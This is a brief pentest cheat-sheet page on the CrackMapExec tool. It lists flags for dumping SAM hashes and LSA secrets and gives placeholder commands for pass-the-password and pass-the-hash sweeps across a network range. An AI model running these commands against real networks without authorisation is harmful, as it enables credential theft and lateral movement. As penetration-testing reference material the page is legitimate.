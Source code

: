 ```yaml
---
title: CRACKMAPEXEC
summary: A swiss army knife for pentesting networks.
description: A swiss army knife for pentesting networks.
---
```


**[https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)**

## Resources

* [Workshop CrackMapExec LeHack 2023 Writeup - BOUYAICHE RAYAN](https://www.rayanle.cat/write-up-workshop-cme-lehack-2023/)

## Flags


 > 
 > **<font color=red>--sam</font>**</br>
 > Dump SAM hashes.
 > 
 > **<font color=red>--lsa</font>**</br>
 > Dump LSA Secrets.

## Pass the Password


 > 
 > **<font color=red>crackmapexec smb</font> \[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-d</font> \[TARGET_DOMAIN\] <font color=red>-u</font> \[mySamName\] <font color=red>-p</font> \[myUserPassword\]**</br>
 > Pass the Password around the network to find pwnable machines.

![tool-crackmapexec-example.png](../attachments/tool-crackmapexec-example.png)

## Pass the Hash (NT)


 > 
 > **<font color=red>crackmapexec smb </font>\[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-u</font> \[mySamName\] <font color=red>-H</font> \[myUserNTHASH\] <font color=red>--local-auth</font>**</br>
 > Pass the Hash attack (NT Hash) around the network to find vulnerable machines.
